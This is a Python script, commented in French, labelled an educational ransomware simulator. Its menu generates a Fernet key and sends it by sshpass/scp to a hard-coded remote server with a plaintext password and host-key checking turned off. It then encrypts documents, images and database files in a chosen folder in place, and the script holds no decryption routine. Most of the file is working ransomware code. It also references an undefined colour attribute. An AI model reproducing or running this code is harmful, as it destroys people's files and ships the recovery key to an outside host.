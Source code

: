#!/usr/bin/env python3
# RANSOMWARE SIMULATEUR - VERSION SANS PARAMIKO
import os
import sys
import time
import logging
from pathlib import Path
from cryptography.fernet import Fernet
import subprocess

# Configuration des couleurs
class Colors:
    RED = '\033[91m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    BLUE = '\033[94m'
    CYAN = '\033[96m'
    END = '\033[0m'
    BOLD = '\033[1m'

# Configuration
SSH_SERVER = "192.168.45.90"
SSH_USER = "doranco"
SSH_PASSWORD = "doranco"  # À changer ou utiliser une clé SSH
REMOTE_DIR = "/home/doranco/cle_dechiffrement"

class RansomwareSimulator:
    def __init__(self):
        self.key = None
        self.cipher = None
        
        # Extensions cibles
        self.target_exts = {
            '.txt', '.doc', '.docx', '.xls', '.xlsx', 
            '.pdf', '.jpg', '.png', '.sql', '.db'
        }

    def clear_screen(self):
        os.system('clear' if os.name == 'posix' else 'cls')

    def show_banner(self):
        self.clear_screen()
        print(f"""{Colors.RED}
    ██████╗  █████╗ ███╗   ██╗███████╗ ██████╗ ███╗   ███╗
    ██╔══██╗██╔══██╗████╗  ██║██╔════╝██╔═══██╗████╗ ████║
    ██████╔╝███████║██╔██╗ ██║███████╗██║   ██║██╔████╔██║
    ██╔══██╗██╔══██║██║╚██╗██║╚════██║██║   ██║██║╚██╔╝██║
    ██║  ██║██║  ██║██║ ╚████║███████║╚██████╔╝██║ ╚═╝ ██║
    ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚═╝     ╚═╝
    {Colors.END}""")
        print(f"{Colors.CYAN}=== SIMULATEUR ÉDUCATIF - VERSION SCP ==={Colors.END}\n")

    def generate_key(self):
        """Génère une clé de chiffrement"""
        print(f"{Colors.GREEN}Génération de la clé...{Colors.END}")
        self.key = Fernet.generate_key()
        self.cipher = Fernet(self.key)
        print(f"Clé générée: {Colors.YELLOW}{self.key.decode()[:12]}...{Colors.END}")
        return True

    def transfer_key_scp(self):
        """Transfère la clé via SCP"""
        if not self.key:
            print(f"{Colors.RED}Aucune clé générée!{Colors.END}")
            return False

        try:
            # Crée un fichier temporaire
            key_file = "/tmp/decryption_key.key"
            with open(key_file, 'wb') as f:
                f.write(self.key)
            
            # Commande SCP
            cmd = [
                'sshpass', '-p', SSH_PASSWORD,
                'scp', '-o', 'StrictHostKeyChecking=no',
                key_file,
                f"{SSH_USER}@{SSH_SERVER}:{REMOTE_DIR}/key_{os.uname().nodename}.key"
            ]
            
            # Exécution
            result = subprocess.run(cmd, check=True, capture_output=True, text=True)
            
            # Nettoyage
            os.remove(key_file)
            
            print(f"{Colors.GREEN}Clé transférée vers {Colors.CYAN}{SSH_SERVER}{Colors.END}")
            return True
            
        except subprocess.CalledProcessError as e:
            print(f"{Colors.RED}Échec SCP: {e.stderr}{Colors.END}")
            return False

    def encrypt_file(self, filepath):
        """Chiffre un fichier"""
        try:
            if os.path.getsize(filepath) > 50 * 1024 * 1024:  # 50MB max
                return False

            with open(filepath, 'rb') as f:
                data = f.read()
            
            encrypted = self.cipher.encrypt(data)
            
            with open(filepath, 'wb') as f:
                f.write(encrypted)
            
            return True
        except Exception as e:
            print(f"{Colors.RED}Erreur sur {filepath}: {str(e)}{Colors.END}")
            return False

    def encrypt_directory(self, path):
        """Chiffre un dossier"""
        if not os.path.exists(path):
            print(f"{Colors.RED}Dossier introuvable: {path}{Colors.END}")
            return

        encrypted = errors = 0
        print(f"{Colors.PURPLE}Chiffrement de {path}...{Colors.END}")
        
        for root, _, files in os.walk(path):
            for file in files:
                filepath = Path(root) / file
                
                if filepath.suffix.lower() not in self.target_exts:
                    continue
                
                if self.encrypt_file(filepath):
                    encrypted += 1
                else:
                    errors += 1
        
        print(f"{Colors.GREEN}Terminé! {encrypted} fichiers chiffrés, {errors} erreurs{Colors.END}")

    def show_menu(self):
        """Affiche le menu interactif"""
        while True:
            self.show_banner()
            print(f"{Colors.BOLD}MENU PRINCIPAL:{Colors.END}")
            print(f"{Colors.GREEN}1.{Colors.END} Générer une clé")
            print(f"{Colors.GREEN}2.{Colors.END} Transférer la clé (SCP)")
            print(f"{Colors.GREEN}3.{Colors.END} Chiffrer un dossier")
            print(f"{Colors.RED}0.{Colors.END} Quitter")
            
            choice = input("\nVotre choix: ")
            
            if choice == "1":
                self.generate_key()
            elif choice == "2":
                self.transfer_key_scp()
            elif choice == "3":
                path = input("Chemin du dossier à chiffrer: ")
                self.encrypt_directory(path)
            elif choice == "0":
                print(f"{Colors.YELLOW}Au revoir!{Colors.END}")
                sys.exit(0)
            else:
                print(f"{Colors.RED}Choix invalide!{Colors.END}")
            
            input("\nAppuyez sur Entrée pour continuer...")

if __name__ == '__main__':
    # Vérification des dépendances système
    try:
        subprocess.run(['sshpass', '-V'], capture_output=True, check=True)
        subprocess.run(['scp', '-V'], capture_output=True, check=True)
    except (subprocess.CalledProcessError, FileNotFoundError):
        print(f"{Colors.RED}Erreur: sshpass et scp doivent être installés{Colors.END}")
        print("Installez-les avec:")
        print("sudo apt install sshpass openssh-client")  # Debian/Ubuntu
        print("ou")
        print("sudo yum install sshpass openssh-clients")  # RHEL/CentOS
        sys.exit(1)
    
    try:
        sim = RansomwareSimulator()
        sim.show_menu()
    except KeyboardInterrupt:
        print(f"\n{Colors.RED}Interruption par l'utilisateur{Colors.END}")
        sys.exit(1)
    except Exception as e:
        print(f"{Colors.RED}ERREUR FATALE: {str(e)}{Colors.END}")
        sys.exit(1)